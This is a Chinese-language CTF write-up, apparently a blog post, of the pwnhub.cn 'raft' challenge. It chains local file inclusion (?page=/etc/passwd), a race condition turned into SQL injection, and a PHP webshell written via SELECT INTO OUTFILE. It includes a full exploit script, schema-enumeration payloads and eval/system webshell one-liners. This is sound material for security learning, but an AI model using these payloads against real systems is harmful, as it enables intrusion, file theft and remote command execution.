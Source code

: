 ```yaml
---
layout: post
title: pwnhub.cn 拍卖行之旅 raft writeup
categories: [WEB, PWN, Writeup]
description: pwnhub.cn 拍卖行之旅 PWN题
keywords: WEB, PWN, Writeup, RaceConditon
---
```


# pwnhub.cn 拍卖行之旅 raft writeup

题目没有给bin，只给了一个网站(http://54.223.241.254/)，看起来是一个膜火日的网站。。我也来膜一发火日。。

网站有本地文件包含漏洞

```
http://54.223.241.254/?page=/etc/passwd
```

利用这个漏洞可以读取服务器上文件，也可以用此方法读到binary文件，至于如何找，只要依次访问如下文件就可以。

```
https://hub.docker.com/r/eadom/ctf_xinetd/~/dockerfile/
http://54.223.241.254/?page=/etc/xinetd.d/ctf
http://54.223.241.254/?page=/home/ctf/raft
```

拿到binary以后就可以分析了

## 漏洞分析&利用

这题binary文件很大，所以漏洞比较隐秘。由于binary中函数比较多，所以从头逆向是下下之策。

我直接通过string 定位到了SQL语句。

```
snprintf(&s, 500uLL, "INSERT INTO TOKENS (TOKENS, PASSWORD) VALUES('%s', '%s')", v5, v4, v17);
v22 = mysql_query(v18, (__int64)&s);
```

看起来v4如果可控的话，是有注入攻击的。那v4到底是否可控呢？

简单的逆一下这个函数的父函数、主函数等相关函数发现，程序提供了reg password\bid price两大功能，而v4是password的md5值，所以并不可控。然后发现这个程序居然是多线程的，心想可不可能是racecondition，由于C++的binary看起来太蛋疼，我就干脆直接写一个fuzzer跑了一下：

```python
from pwn import *;
import random;
io=process("./raft");
def bid(data):
	io.sendline("bid "+data);
def reg(passwd):
	io.sendline("reg "+passwd);
def printhelp(cmd):
	io.sendline("help"+cmd);
while(1):
	try:
		r0=random.randint(0,995);
		r1=random.randint(0,995);
		r2=random.randint(0,995);
		r3=random.randint(0,2);
		if r3==1:
			bid("A"*r1)
		elif r3==2:
			reg("B"*r2)
		else:
			printhelp("C"*r0);
		print io.recv(1000,1)
	except:
		io=process("./raft")
		time.sleep(1)
		continue;
```

然后查询本地的数据库，很快就发现了password竟然被插入了AAAAAAAA...，看来果真是racecondition，根据fuzzer生成的数据最终发现每次被插入AAAAAAAA...的时候，都是一个reg跟好几个bid，看起来是reg跟bid之间的争用，继续逆向程序，果然在0x429f发现了这个race condition。reg password中的存储md5(password)与bid price中的存储price用的是同一个内存，如果先跑一个reg，再跑n个bid的话，reg算好的md5(password)可能会被bid的price覆盖。这样我们就可以进行SQL注入了。

然后我是一个pwn选手。。 pwn选手。 pwn选手 pwn选 pwn pw p。。。。。

于是乎现学了爆表名、报错注入等一系列高端知识，把数据库翻了个底朝天，并没有找到flag。。然后接着想办法用select xxx into yyy上传webshell，上传了好几个小时，一直没上传进去，以为是权限不够，查阅各种资料，甚至还爆了secure_file_priv。。搞了几个小时，最后发现传不上去的原因是我传的那几个目录都不可写。。。。。。。最后传到/tmp终于成功了。。

接下来的问题就是成功了用菜刀连居然没反应，本来以为是被waf过滤掉了，于是乎到网上学习各种花式绕过waf的方法，都没成功。后来又想是不是LFI之后webshell就没法访问了，于是乎又到网上学了各种姿势尝试把webshell传到var/www/html目录下,又没成功，搞了几个小时，搞的tmp目录下都是我传的各种webshell，最后发现原来是菜刀的问题。。。菜刀连不上这个站。。直接用firefox手动操作就可以了。

```
最后上传 <?php echo system($_POST[1]);?> 到/tmp/1234.php
做以下两个post请求就可以看到flag。。
http://54.223.241.254/?page=/tmp/1234.php
1=ls /home/ctf

http://54.223.241.254/?page=/tmp/1234.php
1=cat /home/ctf/this-is-real-flag000
```

做完这题，我觉得我可以转web了。。。学了好多web知识

## Exploit

为了让大家看到我做题的艰辛，= =我决定保留注释

```python
from pwn import *;
import random;
#io=process("./raft");
io=remote("54.223.241.254", 22333)
fd=open("a.in","w");
def bid(data):
	io.sendline("bid "+data);
	fd.write("bid "+data+"\n")
def reg(passwd):
	io.sendline("reg "+passwd);
	fd.write("reg "+passwd+"\n")
while(1):
	try:
		r1=random.randint(0,800);
		r2=random.randint(0,800);
		r3=random.randint(0,1);
	#	sql="22');SELECT 'kaokaokao' INTO OUTFILE '/tmp/12c3ha4.txt'#"
		sql="22');SELECT '<?php eval($_POST[1]);?>' INTO OUTFILE '/tmp/1234567.php'#"
	#	sql="22');SELECT '<?php fputs(fopen(\"/tmp/shell257.php\",\"w\"),\"<?php ;?>\");?>' INTO OUTFILE '/tmp/noip97.php'#"
	
		#sql="22');SELECT '<?php @eval($_POST['passwd']);?>\n<b>123<b>' INTO OUTFILE '/tmp/noip5.php'#"
		#sql="22');INSERT INTO BID (PRICE,TOKENS) VALUES(222,(select TOKENS from BID where PRICE=222)+'"
		#sql="22');INSERT INTO BID (PRICE,TOKENS) VALUES(222,(select @@secure_file_priv))#"
		#sql="123'+ (select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,("
	#	payload="select @@secure_file_priv"
	#	payload="select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x696e666f726d6174696f6e5f736368656d61"
		#payload="select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x646174657769746866697265"
		#payload="select concat(group_concat(distinct schema_name)) from information_schema.schemata"
		#payload="select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=0x646174657769746866697265 and table_name=0x544f4b454e53"
		#payload="select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=0x646174657769746866697265 and table_name=0x424944"
		
	#	sql2=")),1))));INSERT INTO TOKENS (TOKENS, PASSWORD) VALUES('123', '123"
	#	sql=sql+payload+sql2
		#if r3:
	#		bid("A"*r1)
	#	else:
	#		reg("B"*r2)
		reg("B"*888)
		for i in range(10):
			bid(sql);
		print io.recv(1000,1)
	except:
#		io=process("./raft")
		io=remote("54.223.241.254", 22333)
		time.sleep(1)
		continue;
```

好气啊，pwn漏洞老早就搞定了，卡web卡了10多小时，妈妈我要学习web！！

最后的最后，暴打出题人，膜火日。膜抢走我一血的bird。
